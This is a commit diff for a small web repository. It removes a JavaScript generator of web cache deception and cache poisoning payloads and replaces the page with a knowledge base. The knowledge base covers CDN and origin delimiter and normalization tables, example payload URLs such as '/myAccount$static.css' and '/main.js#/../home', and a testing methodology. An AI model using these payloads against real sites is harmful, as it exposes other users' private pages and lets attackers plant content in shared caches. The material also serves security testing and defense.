

Before and after one commit to JanpreetWazir/Cache-lov, a plain HTML site: page index.html in a window 390 px wide. Shown: the part 87-1656 px from the top of the page at 99% size, 584 px wide, since content can reach past the window. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Fixed all

```diff
--- a/css/style.css
+++ /dev/null
@@ -1,33 +0,0 @@
-:root{
-  --bg:#070006; --panel:#0f0720; --pink:#ff2fa6; --muted:#bba3c7; --glass:rgba(255,47,166,0.06);
-}
-body{margin:0;font-family:Inter,system-ui,Segoe UI,Arial;background:linear-gradient(180deg,var(--bg),#000);color:var(--muted)}
-.container{max-width:1100px;margin:0 auto;padding:18px}
-.topbar{border-bottom:1px solid rgba(255,47,166,0.04);background:linear-gradient(90deg,rgba(255,255,255,0.02),transparent)}
-.topbar .container{display:flex;align-items:center;justify-content:space-between}
-.brand{display:flex;gap:12px;align-items:center}
-.logo{width:44px;height:44px;border-radius:8px}
-.title{color:var(--pink);font-weight:700;text-decoration:none}
-.navlink{color:var(--muted);margin-right:8px;text-decoration:none}
-.btn{background:linear-gradient(90deg,var(--pink),#ff79c9);border:none;color:#061021;padding:8px 10px;border-radius:8px;cursor:pointer}
-.btn.ghost{background:transparent;border:1px solid rgba(255,255,255,0.04);color:var(--muted)}
-.btn.small{padding:6px 8px;font-size:13px}
-.maingrid{display:grid;grid-template-columns:2fr 1fr;gap:14px;align-items:start;padding-top:14px}
-.panel{background:var(--panel);padding:18px;border-radius:12px;border:1px solid rgba(255,47,166,0.06)}
-.formgrid{display:grid;grid-template-columns:repeat(3,1fr);gap:12px;margin-top:12px}
-.select{width:100%;padding:8px;border-radius:8px;background:#0b0610;color:#fff;border:1px solid rgba(255,255,255,0.02)}
-.controls{margin-top:12px;display:flex;gap:8px}
-.resultgrid{display:grid;grid-template-columns:1fr 1fr;gap:12px;margin-top:12px}
-.output{background:#06040a;padding:10px;border-radius:8px;border:1px solid rgba(255,47,166,0.04);min-height:60px}
-.payloads{background:#030012;padding:12px;border-radius:8px;color:#ffe6fb;min-height:240px;overflow:auto}
-.sidebar{position:sticky;top:20px}
-.foot{text-align:center;padding:16px;color:#8a7aa1}
-.muted{color:var(--muted)}
-.small{font-size:13px}
-@media(max-width:900px){.maingrid{grid-template-columns:1fr}.formgrid{grid-template-columns:1fr}}
-
-/* light theme */
-body.theme-light{background:linear-gradient(180deg,#fff8ff,#fff);color:#2b2630}
-body.theme-light .panel{background:#fff;border-color:rgba(0,0,0,0.06)}
-body.theme-light .payloads{background:#f7f3f8;color:#4b2a48}
-body.theme-light .btn{color:#fff}
--- a/index.html
+++ b/index.html
@@ -1,112 +1,168 @@
 <!doctype html>
 <html lang="en">
 <head>
-  <meta charset="utf-8" />
-  <meta name="viewport" content="width=device-width,initial-scale=1" />
-  <title>Cache Test Generator — Neon</title>
-  <link rel="stylesheet" href="css/style.css">
-  <meta name="theme-color" content="#070006">
+<meta charset="utf-8" />
+<meta name="viewport" content="width=device-width, initial-scale=1" />
+<title>Cache Vulnerability Knowledge Base</title>
+<style>
+  body{margin:0;background:#050006;font-family:Inter,system-ui,Arial;color:#e6d9f0;line-height:1.55;padding:24px}
+  h1,h2,h3{color:#ff2fa6;text-shadow:0 0 12px rgba(255,47,166,0.35)}
+  h1{margin-top:0;font-size:26px}
+  h2{margin-top:32px;font-size:20px;border-bottom:1px solid rgba(255,47,166,0.25);padding-bottom:6px}
+  h3{margin-top:22px;font-size:17px}
+  .card{background:rgba(255,47,166,0.05);border:1px solid rgba(255,47,166,0.15);padding:14px;border-radius:10px;margin:16px 0}
+  table{width:100%;border-collapse:collapse;margin:12px 0;font-size:14px}
+  th,td{border:1px solid rgba(255,47,166,0.25);padding:8px 10px;text-align:left}
+  th{background:rgba(255,47,166,0.15)}
+  code{background:#120014;padding:2px 5px;border-radius:4px;color:#ff93d9}
+  .note{color:#bba3c7;font-size:13px}
+  a{color:#ff2fa6}
+</style>
 </head>
-<body class="theme-dark">
-  <header class="topbar">
-    <div class="container">
-      <div class="brand">
-        <img src="assets/logo.png" alt="logo" class="logo">
-        <a href="index.html" class="title">Cache Test Generator</a>
-      </div>
-      <nav>
-        <a href="docs.html" class="navlink">Documentation</a>
-        <button id="themeToggle" class="btn small">Toggle Theme</button>
-      </nav>
-    </div>
-  </header>
+<body>
+<h1>Web Cache Vulnerabilities — Documentation & Knowledge Base</h1>
+<p class="note">This page collects all research, tables, delimiter rules, behaviors, attack vectors, payload methodologies and logic used in the generator (/index.html).</p>
 
-  <main class="container maingrid">
-    <section class="panel">
-      <h1>Interactive Payload Generator</h1>
-      <p class="muted">Select CDN, Backend, Framework → get prioritized delimiters, normalization checks, and ready-to-run payloads.</p>
+<h2>1. URL Parsing Discrepancies</h2>
+<p>Cache poisoning and cache deception arise from inconsistent parsing of:</p>
+<ul>
+  <li>Delimiters</li>
+  <li>Encodings</li>
+  <li>Dot-segments <code>/../</code></li>
+  <li>Normalization rules</li>
+</ul>
 
-      <div class="formgrid">
-        <label>CDN
-          <select id="cdn" class="select">
-            <option value="cloudflare">Cloudflare</option>
-            <option value="cloudfront">CloudFront</option>
-            <option value="azure">Azure</option>
-            <option value="fastly">Fastly</option>
-            <option value="imperva">Imperva</option>
-            <option value="gcp">GCP</option>
-            <option value="akamai">Akamai</option>
-          </select>
-        </label>
-        <label>Backend
-          <select id="backend" class="select">
-            <option value="nginx">Nginx</option>
-            <option value="apache">Apache</option>
-            <option value="iis">IIS</option>
-            <option value="gunicorn">Gunicorn</option>
-            <option value="openlite">OpenLite</option>
-            <option value="puma">Puma</option>
-          </select>
-        </label>
-        <label>Framework
-          <select id="framework" class="select">
-            <option value="flask">Flask</option>
-            <option value="django">Django</option>
-            <option value="rails">Rails</option>
-            <option value="spring">Spring</option>
-            <option value="express">Express</option>
-            <option value="laravel">Laravel</option>
-          </select>
-        </label>
-      </div>
+<h3>1.1 Delimiter Behavior by CDN (Key Parser)</h3>
+<table>
+<tr><th>CDN</th><th>Is <code>#</code> a Delimiter?</th></tr>
+<tr><td>Cloudflare</td><td>NO</td></tr>
+<tr><td>CloudFront</td><td>YES</td></tr>
+<tr><td>GCP</td><td>ERROR</td></tr>
+<tr><td>Azure</td><td>YES</td></tr>
+<tr><td>Imperva</td><td>NO</td></tr>
+<tr><td>Fastly</td><td>NO</td></tr>
+</table>
 
-      <div class="controls">
-        <button id="go" class="btn primary">Generate</button>
-        <button id="download" class="btn ghost">Download payloads</button>
-        <button id="reset" class="btn ghost">Reset</button>
-      </div>
+<h3>1.2 Delimiter Behavior — Origin Servers</h3>
+<table>
+<tr><th>Origin Server</th><th> <code>#</code> Delimiter?</th></tr>
+<tr><td>Apache</td><td>ERROR</td></tr>
+<tr><td>Nginx</td><td>YES</td></tr>
+<tr><td>IIS</td><td>ERROR</td></tr>
+<tr><td>Gunicorn</td><td>YES</td></tr>
+<tr><td>OpenLite</td><td>NO</td></tr>
+<tr><td>Puma</td><td>YES</td></tr>
+</table>
 
-      <div class="resultgrid">
-        <div>
-          <h3>Priority delimiters</h3>
-          <div id="delims" class="output"></div>
+<h3>1.3 Framework-Level Delimiters</h3>
+<table>
+<tr><th>Framework</th><th> <code>#</code> Delimiter?</th></tr>
+<tr><td>Spring</td><td>ERROR</td></tr>
+<tr><td>Rails</td><td>YES</td></tr>
+<tr><td>Django</td><td>NO</td></tr>
+<tr><td>Flask</td><td>YES</td></tr>
+<tr><td>Express</td><td>NO</td></tr>
+<tr><td>Laravel</td><td>YES</td></tr>
+</table>
 
-          <h3>Normalization checks</h3>
-          <div id="norms" class="output"></div>
+<h2>2. Normalization Behavior</h2>
+<p>Caches and backends normalize URLs differently. Example test case: <code>/hello/..%2Fworld</code>.</p>
+<table>
+<tr><th>Provider</th><th>Normalized?</th></tr>
+<tr><td>Cloudflare</td><td>No</td></tr>
+<tr><td>CloudFront</td><td>Yes</td></tr>
+<tr><td>GCP</td><td>No</td></tr>
+<tr><td>Azure</td><td>Yes</td></tr>
+<tr><td>Imperva</td><td>No</td></tr>
+<tr><td>Fastly</td><td>No</td></tr>
+</table>
 
-          <h3>Framework notes</h3>
-          <div id="fnotes" class="output"></div>
-        </div>
+<h3>Backend Normalization</h3>
+<table>
+<tr><th>Origin Server</th><th>Normalized?</th></tr>
+<tr><td>Apache</td><td>Yes</td></tr>
+<tr><td>Nginx</td><td>No</td></tr>
+<tr><td>IIS</td><td>Yes</td></tr>
+<tr><td>Gunicorn</td><td>Yes</td></tr>
+<tr><td>OpenLite</td><td>No</td></tr>
+<tr><td>Puma</td><td>Yes</td></tr>
+</table>
 
-        <div>
-          <div class="toolbar">
-            <h3>Generated payloads</h3>
-            <div>
-              <button id="copyAll" class="btn tiny">Copy</button>
-            </div>
-          </div>
-          <pre id="payloadText" class="payloads">(none)</pre>
-        </div>
-      </div>
+<h2>3. Critical Attack Families</h2>
 
-    </section>
+<h3>3.1 Web Cache Deception</h3>
+<div class="card">
+<b>Goal:</b> Store dynamic/sensitive responses as static files in CDN cache.<br><br>
+<b>Techniques:</b>
+<ul>
+  <li>Static extension deception (<code>.css</code>, <code>.js</code>, etc.)</li>
+  <li>Static directory deception (<code>/static/</code>, <code>/assets/</code>)</li>
+  <li>Static file target (<code>/robots.txt</code>, <code>/favicon.ico</code>)</li>
+  <li>Using backend delimiters like <code>$</code>, <code>;</code>, <code>.</code>, <code>%00</code></li>
+</ul>
+</div>
 
-    <aside class="panel sidebar">
-      <h3>Quick checklist</h3>
-      <ul class="muted small">
-        <li>Find cacheable endpoints (X-Cache / CF-Cache-Status)</li>
-        <li>Test encoded vs plain</li>
-        <li>Test dot-seg normalization</li>
-        <li>Try static ext & dir payloads</li>
-      </ul>
+<h3>3.2 Arbitrary Web Cache Poisoning</h3>
+<div class="card">
+<b>Goal:</b> Inject attacker-controlled content into popular resources (<code>/home</code>, <code>/main.js</code>).<br><br>
+<b>Vectors:</b>
+<ul>
+  <li>Key normalization abuse</li>
+  <li>Delimiter mismatch (<code>#</code> front-end vs backend)</li>
+  <li>Path traversal in normalized key</li>
+  <li>Self-reflected content poisoning</li>
+</ul>
+</div>
 
-      <h3>Export</h3>
-      <p class="muted small">Payloads file will be downloaded as <code>payloads.txt</code>.</p>
-    </aside>
-  </main>
+<h2>4. Key Exploitation Techniques</h2>
 
-  <footer class="foot">Janpreet Singh • Cache Vulnerability Toolkit</footer>
+<h3>4.1 Using <code>#</code> Fragment (Encoded + Raw)</h3>
+<p>Browser strips raw <code>#</code>, but encoded <code>%23</code> may pass to CDN, creating key confusion.</p>
+<table>
+<tr><th>URL Sent</th><th>Cache Key</th><th>Origin Path</th></tr>
+<tr><td>/main.js#/../home</td><td>/main.js</td><td>/home</td></tr>
+<tr><td>/any_page#/../redirect</td><td>/any_page</td><td>/redirect</td></tr>
+</table>
 
-  <script src="js/main.js"></script>
+<h3>4.2 Static Extension Deception</h3>
+<table>
+<tr><th>Browser</th><th>Cache</th><th>Origin</th></tr>
+<tr><td>/myAccount$static.css</td><td>/myAccount$static.css</td><td>/myAccount</td></tr>
+</table>
+
+<h3>4.3 Encoded Hash Deception</h3>
+<table>
+<tr><th>Browser</th><th>Cache</th><th>Origin</th></tr>
+<tr><td>/myAccount%23static.css</td><td>/myAccount%23static.css</td><td>/myAccount#static.css</td></tr>
+</table>
+
+<h3>4.4 Static Directory Normalization Attack</h3>
+<table>
+<tr><th>Browser</th><th>Cache</th><th>Origin</th></tr>
+<tr><td>/myAccount$/..%2Fstatic/any</td><td>/static/any</td><td>/myAccount</td></tr>
+</table>
+
+<h2>5. Testing Methodology (Step-by-Step)</h2>
+<ol>
+  <li>Detect cacheable endpoint (check <code>X-Cache</code>, <code>CF-Cache-Status</code>)</li>
+  <li>Test delimiter behavior (raw + encoded)</li>
+  <li>Test normalization (<code>/../</code>, <code>.%2e</code>, encoded slash)</li>
+  <li>Test CDN rewriting / forwarding</li>
+  <li>Generate payloads using index.html</li>
+  <li>Verify poisoning via separate victim request</li>
+</ol>
+
+<h2>6. Defense Overview</h2>
+<ul>
+  <li><code>Cache-Control: no-store, private</code> for dynamic pages</li>
+  <li>Disable path normalization differences</li>
+  <li>Disable delimiter-based suffix forwarding</li>
+  <li>Unify CDN + backend parsing logic</li>
+  <li>Strict static extension/directory rules</li>
+</ul>
+
+<h2>7. Reference File</h2>
+<p>Uploaded image was processed from:<br><code>/mnt/data/82129cd8-2523-4b22-ac07-a6a3e6d22578.png</code></p>
+
 </body>
 </html>
--- a/js/main.js
+++ /dev/null
@@ -1,70 +0,0 @@
-// main.js — shared logic for generator + docs (theme toggle, generator logic)
-(function(){
-  const STATIC_EXT = ['.js','.css','.png','.jpg','.jpeg','.svg','.woff','.woff2','.pdf'];
-  const CDN_MAP = {cloudflare:{hash_delim:false,normalizes:false},cloudfront:{hash_delim:true,normalizes:true},gcp:{hash_delim:null,normalizes:false},azure:{hash_delim:true,normalizes:true},imperva:{hash_delim:false,normalizes:true},fastly:{hash_delim:false,normalizes:false},akamai:{hash_delim:null,normalizes:null}};
-  const BACKEND_MAP = {apache:{hash_delim:'error',normalizes:true},nginx:{hash_delim:true,normalizes:false},iis:{hash_delim:'error',normalizes:true},gunicorn:{hash_delim:true,normalizes:true},openlite:{hash_delim:false,normalizes:false},puma:{hash_delim:true,normalizes:true}};
-  const FRAMEWORK_MAP = {spring:{semicolon:true,dot:false},rails:{dot:true},django:{dot:false},flask:{dot:true},express:{dot:false},laravel:{dot:true}};
-
-  // utilities
-  function payloadStaticExt(user_path){const out=[];for(const ext of STATIC_EXT){out.push(user_path+'$aaa'+ext);out.push(user_path+'%24aaa'+ext);}return out}
-  function payloadStaticDir(user_path){return [user_path+'$..%2Fstatic%2Fshell',user_path+'%24..%2Fstatic%2Fshell',user_path+'$..%2Fassets%2Fmain.js']}
-  function payloadDotSegment(target){return ['/random/..%2F'+target.replace(/^\//,''),'/random/../'+target.replace(/^\//,''),'/tmp/.%2e/'+target.replace(/^\//,'')]}
-  function payloadHashPoison(popular,poisoned){return [popular+'# '+poisoned,popular+'#%2F..%2F'+poisoned.replace(/^\//,''),popular+'#/..'+poisoned,popular+'#/../'+poisoned.replace(/^\//,'')]}
-  function payloadBackendDelim(delim,target){return ['/backend'+delim+'../'+target.replace(/^\//,''),'/backend'+delim+'%2E%2E%2F'+target.replace(/^\//,'')]}
-
-  function detectBehavior(cdn,backend,framework){
-    const cdn_k = CDN_MAP[cdn]; const b_k = BACKEND_MAP[backend]; const f_k = FRAMEWORK_MAP[framework];
-    const report = {cdn,backend,framework};
-    if(cdn_k && b_k){
-      const cdn_hash = cdn_k.hash_delim; const backend_hash = b_k.hash_delim;
-      if(cdn_hash===true && backend_hash===true) report.hash='both-parsers-hash';
-      else if(cdn_hash===false && backend_hash===true) report.hash='backend-hashes-cdn-ignores -> HIGH RISK';
-      else if(cdn_hash===true && backend_hash===false) report.hash='cdn-hashes-backend-ignores -> unusual';
-      else report.hash='unknown';
-    } else report.hash='unknown';
-    if(b_k && cdn_k){
-      if(b_k.normalizes && !cdn_k.normalizes) report.dot='origin-normalizes,cdn-not -> static-dir vector';
-      else if(!b_k.normalizes && cdn_k.normalizes) report.dot='cdn-normalizes,origin-not -> different vector';
-      else report.dot='same or unknown';
-    } else report.dot='same or unknown';
-    report.framework_notes = [];
-    if(f_k){ if(f_k.semicolon) report.framework_notes.push('spring-matrix-params: try semicolon'); if(f_k.dot) report.framework_notes.push('dot-as-format: static-ext tricks likely'); }
-    return report;
-  }
-
-  // DOM helpers
-  function by(id){return document.getElementById(id)}
-
-  function generate(){
-    const cdn = by('cdn')?by('cdn').value:'cloudflare';
-    const backend = by('backend')?by('backend').value:'nginx';
-    const framework = by('framework')?by('framework').value:'flask';
-    const r = detectBehavior(cdn,backend,framework);
-    const delims = ['%23 (encoded #)','# (fragment)','$ (dollar)','; (semicolon)','. (dot/format)','%00 (null)','%0A (newline)','%2E%2E (..)','%2F (slash encoded)','%5C (backslash encoded)'];
-    if(by('delims')) by('delims').innerHTML = '<strong>Priority:</strong> '+delims.join(', ');
-    if(by('norms')) by('norms').innerHTML = ['1) Base: GET /home','2) Encoded vs plain: GET /%68%6f%6d%65','3) Dot-seg: GET /aaa/../home','4) Encoded slash/backslash: /a%2F..%2Fhome'].join('<br>');
-    if(by('fnotes')) by('fnotes').innerHTML = '<strong>Hash:</strong> '+r.hash+'<br><strong>Dot:</strong> '+r.dot + (r.framework_notes.length?('<br><strong>Framework:</strong> '+r.framework_notes.join('; ')):'');
-    const payloads = [];
-    payloads.push('-- Static extension deception --'); payloads.push(...payloadStaticExt('/myAccount'));
-    payloads.push(''); payloads.push('-- Static directory deception --'); payloads.push(...payloadStaticDir('/myAccount'));
-    payloads.push(''); payloads.push('-- Dot-segment tests --'); payloads.push(...payloadDotSegment('/home'));
-    payloads.push(''); payloads.push('-- Hash/frame poisoning tests --'); payloads.push(...payloadHashPoison('/main.js','/home'));
-    payloads.push(''); payloads.push('-- Backend delimiter tests --'); payloads.push(...payloadBackendDelim('$','/home'));
-    if(by('payloadText')) by('payloadText').textContent = payloads.join('\n');
-  }
-
-  // theme toggle
-  function toggleTheme(){ document.body.classList.toggle('theme-light'); document.body.classList.toggle('theme-dark'); localStorage.setItem('theme', document.body.classList.contains('theme-light')?'light':'dark'); }
-  function initTheme(){ const t = localStorage.getItem('theme'); if(t==='light'){ document.body.classList.add('theme-light'); document.body.classList.remove('theme-dark'); } else { document.body.classList.add('theme-dark'); document.body.classList.remove('theme-light'); } }
-
-  // event wiring
-  window.addEventListener('load', ()=>{
-    initTheme(); generate();
-    const go = by('go'); if(go) go.addEventListener('click', generate);
-    const reset = by('reset'); if(reset) reset.addEventListener('click', ()=>{ if(by('payloadText')) by('payloadText').textContent='(none)'; if(by('delims')) by('delims').innerHTML=''; if(by('norms')) by('norms').innerHTML=''; if(by('fnotes')) by('fnotes').innerHTML=''; });
-    const copyAll = by('copyAll')||by('copyAll'); if(copyAll) copyAll.addEventListener('click', ()=>{ navigator.clipboard.writeText(by('payloadText').textContent||''); });
-    const download = by('download'); if(download) download.addEventListener('click', ()=>{ const blob = new Blob([by('payloadText').textContent||''],{type:'text/plain'}); const url = URL.createObjectURL(blob); const a = document.createElement('a'); a.href=url; a.download='payloads.txt'; a.click(); URL.revokeObjectURL(url); });
-    const themeBtn = by('themeToggle'); if(themeBtn) themeBtn.addEventListener('click', toggleTheme);
-    const themeBtnDocs = by('themeToggleDocs'); if(themeBtnDocs) themeBtnDocs.addEventListener('click', toggleTheme);
-  });
-})();
```
Also changed, not shown: docs.html (deleted, +0 -59 lines), assets/logo.png (deleted), assets/reference.png (deleted).
